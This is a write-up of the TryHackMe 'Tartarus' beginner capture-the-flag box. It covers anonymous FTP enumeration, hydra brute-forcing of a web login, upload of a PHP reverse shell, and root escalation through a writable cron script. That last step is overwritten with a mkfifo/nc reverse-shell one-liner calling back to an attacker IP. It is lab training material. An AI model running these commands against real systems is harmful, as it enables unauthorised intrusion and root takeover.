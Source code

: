 # Tartarus

[<img src=".Images/tartarus.png" height="199">](https://tryhackme.com/room/tartaraus)

*"This is a beginner box based on simple enumeration of services and basic privilege escalation techniques."* -[csenox](https://tryhackme.com/p/csenox)

Difficulty: *Easy*

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

We can start by doing an nmap scan.

`nmap -A -oN tartarus.nmap <ip>`

![tartarus-1](.Images/tartarus-1.png)

We have an FTP on port 21, SSH service on port 22 and Apache web server on port 80. The results say "Anonymous FTP login allowed". Let's connect to FTP anonymously. We can download the files with the get command.
User: anonymous
Pass: blank

`ftp <ip>`

![tartarus-2](.Images/tartarus-2.png)

We found a file named test.txt. We can try to navigate inside the shared directory on FTP.

`cd ..`
`cd ...`

![tartarus-3](.Images/tartarus-3.png)

We found another file called yougotgoodeyes.txt. Let's check these files.

![tartarus-4](.Images/tartarus-4.png)

/sUp3r-s3cr3t should be a website directory. Now we can start checking the website. If we look at the /sUp3r-s3cr3t directory, we can see that there is a login page. We can try bruteforce here, but first, let's try looking at the robots.txt file.

![tartarus-5](.Images/tartarus-5.png)

We found /admin-dir directory.

![tartarus-6](.Images/tartarus-6.png)

Let's download credentials.txt and userid file. The credentials.txt file looks like a password list and the userid file looks like a list of usernames. We can use these files to bruteforce the login page. We will use the hydra tool for bruteforce.

First we need to find out what kind of request we sent. We can go to the / sUp3r-s3cr3t directory, open the Inspect Element section and go to the Network section. Now we can try to login with random credentials. After doing this, we will see a POST request in the Network section. We can right click on this request and click Edit and Resend. Here, the Request Body field at the bottom right of the screen gives the information we need. [These are valid for firefox.](https://bentrobotlabs.wordpress.com/2018/04/02/web-site-login-brute-forcing-with-hydra/)

`hydra -L userid -P credentials.txt <IP> http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect"`

![tartarus-7](.Images/tartarus-7.png)

******

## [Gain Shell]

We can now login to the site using this information.

![tartarus-8](.Images/tartarus-8.png)

Here is a page where we can upload files. We can try upload [php_reverse_shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). We can download the file and upload it after we write our own IP and port(49th and 50th lines). 

![tartarus-9](.Images/tartarus-9.png)

We uploaded the file. We need to run the file to get a shell. To run the file, we need to find where it is. We will do directory scan with gobuster to find it. I will use [common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt) list.

`gobuster dir -u http://<IP>/sUp3r-s3cr3t/ -w common.txt`

![tartarus-10](.Images/tartarus-10.png)

If we look at the images directory, we will see that there is a directory named uploads in it.

![tartarus-11](.Images/tartarus-11.png)

We will find the file we uploaded in it.

![tartarus-12](.Images/tartarus-12.png)

If we run the file while listening to the port with nc, we will get a shell.

`nc -nvlp <PORT>`

![tartarus-13](.Images/tartarus-13.png)

******

## [Privilege Escalation]

First of all, let's make shell more beautiful.

`export TERM=xterm`

`python -c 'import pty; pty.spawn("/bin/bash")'`

![tartarus-14](.Images/tartarus-14.png)

If we look at the /etc/crontab file, we will see that the file named cleanup.py runs periodically by using root privileges.

![tartarus-15](.Images/tartarus-15.png)

Let's look inside the file named cleanup.py.

![tartarus-16](.Images/tartarus-16.png)

The file regularly cleans the /home/cleanup/ directory. When we look at the file with the "ls -la" command, we see that we have write authority. So if we change the file with a reverse shell and wait a bit, we can get a shell with root privilege. I will write python reverse shell into the file with the echo command.

`echo 'import os; os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT>  >/tmp/f")' > cleanup.py`

![tartarus-17](.Images/tartarus-17.png)

Now we need to listen to the port with nc and wait. When the file runs again, we will get a shell with root privilege.

![tartarus-18](.Images/tartarus-18.png)

And now we are root user.
